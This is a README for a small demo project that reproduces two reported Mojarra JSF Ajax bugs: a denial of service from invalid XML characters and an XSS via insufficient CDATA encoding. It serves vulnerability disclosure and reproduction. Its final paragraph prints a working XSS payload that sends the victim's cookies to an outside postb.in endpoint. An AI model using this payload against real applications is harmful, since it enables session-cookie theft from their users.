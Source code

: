 # mojarra-ajax
Minimal demo to reproduce some issues with mojarra partial update.

To reproduce just run
````bash
mvn package wildfly:run
````
and wait for the server to start up.

## Issue: [Ajax update fails due to invalid characters in response XML (DoS)](https://github.com/eclipse-ee4j/mojarra/issues/4516)

Open the url <http://localhost:8080/ajax/index.xhtml>.

It also works for user supplied inputs, open <http://localhost:8080/ajax/input.xhtml> and enter the [\u000C](https://r12a.github.io/uniview/?charlist=%0C#title) character 
into the input field.

## Issue: [Partial rendering: insufficient CDATA encoding (XSS)](https://github.com/eclipse-ee4j/mojarra/issues/4392)

Open the url <http://localhost:8080/ajax/issue4392.xhtml>, enter `]]>` and click at the button to see the XML parser crashing (denial of service).

However, this vulnerability might also be used to inject arbitrary javascript (XSS). Just enter `]]></update><eval><![CDATA[window.open("https://postb.in/Kva1OZoi?cookie="+encodeURIComponent(document.cookie));]]></eval><update><![CDATA[` and see how your cookies have been sent to https://postb.in/b/Kva1OZoi.
